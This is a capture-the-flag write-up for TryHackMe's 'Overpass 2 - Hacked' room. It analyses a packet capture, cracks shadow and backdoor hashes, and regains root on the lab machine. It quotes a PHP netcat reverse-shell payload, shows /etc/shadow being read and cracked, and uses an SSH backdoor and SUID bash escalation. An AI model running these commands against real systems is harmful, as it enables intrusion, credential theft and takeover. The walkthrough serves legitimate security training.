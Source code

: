 # Overpass 2 - Hacked

- [Tools](#tools)
- [Forensics - Analyse the PCAP](#forensics---analyse-the-pcap)
- [Research - Analyse the code](#research---analyse-the-code)
- [Attack - Get back in!](#attack---get-back-in)

Room Link: [https://tryhackme.com/room/overpass2hacked](https://tryhackme.com/room/overpass2hacked)

## Tools 

- Wireshark https://www.wireshark.org/download.html
- Strings
- John The Ripper https://www.openwall.com/john/
- hashcat https://hashcat.net/hashcat/

##  Forensics - Analyse the PCAP

- Download `overpass2.pcapng`.
- Check and match `md5sum` of the file to verify file.

```bash

md5sum overpass2.pcapng 
11c3b2e9221865580295bc662c35c6dc  overpass2.pcapng
```

- We can use `wireshark` and `follow TCP streams` of suspicious streams. But, I used `strings overpass2.pcapng`.
- With strings we can see everything in plaintext. There is a request to link on directory `/development/upload.php`.
- Question `What was the URL of the page they used to upload a reverse shell?` Answer `/development/`.
- With same method we can get the payload `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`. You can check it by scrolling or simply use `strings overpass2.pcapng |grep "php exec"`
- Question `What payload did the attacker use to gain access?` Answer `exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")`.
- Question `What password did the attacker use to privesc?` Answer `whene************tant`. You can manually scan strings result to see the password.
- Question `How did the attacker establish persistence?` Answer `https://github.com/NinjaJc01/ssh-backdoor`. With same manual scrolling will work here.
- We can see `cat /etc/shadow` command and it's result inside `strings` output. We can simply save it in a file named shadow.
- Then we need to download `fasttrack` wordlist as instructed using command `wget https://raw.githubusercontent.com/drtychai/wordlists/master/fasttrack.txt`.
- Then we can run john to check.

```bash

john --wordlist=fasttrack.txt shadow 
Loaded 5 password hashes with 5 different salts (crypt, generic crypt(3) [?/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
se*****y3        (paradox)
ab***23          (szymex)
s****t12         (bee)
1***2wsx         (muirland)
4g 0:00:00:04 100% 0.8113g/s 45.03p/s 187.4c/s 187.4C/s 2003..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

- Question `Using the fasttrack wordlist, how many of the system passwords were crackable?` Answer `4` 


## Research - Analyse the code

- We have the backdoor link `https://github.com/NinjaJc01/ssh-backdoor`. We can find `hash` and `salt` details inside code. `https://raw.githubusercontent.com/NinjaJc01/ssh-backdoor/master/main.go`
- Question `What's the default hash for the backdoor?` Answer `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`
- Question `What's the hardcoded salt for the backdoor?` Answer `1c362db832f3f864c8c2fe05f2002a05`.
- Question `What was the hash that the attacker used? - go back to the PCAP for this!` Answer `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`. We can check it manually inside `strings` output. By using `strings overpass2.pcapng |grep "backdoor -a"` we can directly find the output.
- As we can find in the backdoor code that it is `sha512`. So we can decode it using `hashcat`.

```bash

hashcat -m 1710 "6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05" --force /opt/wordlist/rockyou.txt --quiet
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:no******6
```

- Question `Crack the hash using rockyou and a cracking tool of your choice. What's the password?` Answer `n********6`

## Attack - Get back in!

- Start Machine to get IP.
- Question `The attacker defaced the website. What message did they leave as a heading?` Answer `H4ck3d by CooctusClan`. Manually checking strings output for downloading deface page will show this. We can also use this command `strings overpass2.pcapng |grep "H4ck3d"`. Or simply opening the ip in browser will show this heading.
- We have repeat attackers steps. Now we can login to the ssh port 2222 opened by the backdoor as we saw in `strings` output. We already have username `james` and can use cracked password. We need to use `-oHostKeyAlgorithms=+ssh-rsa` to get ssh as there is an error.

```bash

ssh -p 2222 james@10.10.136.126
Unable to negotiate with 10.10.136.126 port 2222: no matching host key type found. Their offer: ssh-rsa
$ ssh -oHostKeyAlgorithms=+ssh-rsa james@10.10.136.126 -p 2222
The authenticity of host '[10.10.136.126]:2222 ([10.10.136.126]:2222)' can't be established.
RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.136.126]:2222' (RSA) to the list of known hosts.
james@10.10.136.126's password: *******
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
```

- Question `What's the user flag?` Answer `thm{****************}`

```bash

james@overpass-production:/home/james/ssh-backdoor$ cat /home/james/user.txt
thm{****************}
```

- By using SUID find command `find . -perm /4000` we got a unusual file `/home/james/.suid_bash`. We can get suid exploit for it here https://gtfobins.github.io/gtfobins/bash/#suid
- Question `What's the root flag?` Answer `thm{***************************}`

```bash

james@overpass-production:/home/james/ssh-backdoor$ /home/james/.suid_bash -p
.suid_bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(james)
.suid_bash-4.4# cat /root/root.txt 
thm{***************************}
```

Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
